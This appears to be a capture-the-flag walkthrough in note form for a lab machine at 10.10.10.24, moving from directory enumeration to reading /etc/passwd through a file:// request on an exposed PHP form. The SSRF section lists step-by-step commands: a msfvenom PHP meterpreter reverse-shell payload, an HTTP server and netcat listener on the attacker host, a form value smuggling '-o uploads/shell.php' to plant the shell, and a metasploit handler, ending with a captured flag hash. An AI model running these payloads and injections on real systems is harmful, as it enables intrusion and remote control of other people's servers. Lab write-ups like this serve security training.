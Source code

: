 

### Dirb
```bash
==> DIRECTORY: http://10.10.10.24:80/uploads/
```


![[uploads dir forbidden.png]]



### exposed.php

```bash
http://10.10.10.24/exposed.php
```

![[exposed.php.png]]


![[make a post request.png]]


```
http://localhost/test.html
```


![[test site.png]]


### LFI

```txt
file:///etc/passwd
```

```txt
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false maria:x:1000:1000:maria,,,:/home/maria:/bin/bash mysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/false lightdm:x:111:118:Light Display Manager:/var/lib/lightdm:/bin/false pulse:x:112:121:PulseAudio daemon,,,:/var/run/pulse:/bin/false sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
```


### SSRF

reference: *https://resources.infosecinstitute.com/topic/the-ssrf-vulnerability/*


Generate a reverse shell payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw -o shell.php
```

Start a simple http server:

```python
python3 -m http.server 80
```

Start a netcat listener:

```
nc -lvnp 4321 
```

Edit form request in burpsuite:


![[Edit form request in burpsuite.png]]


```txt
formurl=http://10.10.14.3/shell.php -o uploads/shell.php&submit=Go
```

we get a request on the attacker web server:

![[request on the attacker web server.png]]

visit the url to execute the reverse shell:
```txt
http://10.10.10.24/uploads/shell.php
```


in metasploit console:
```txt
use exploit/multi/handler 
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.3
set lport 4321
run
```


we get a shell:

![[pop shell.png]]

local.txt:

```txt
6316ebf1106bb844ca5039e5c44acf96
```

![[local.txt.png]]

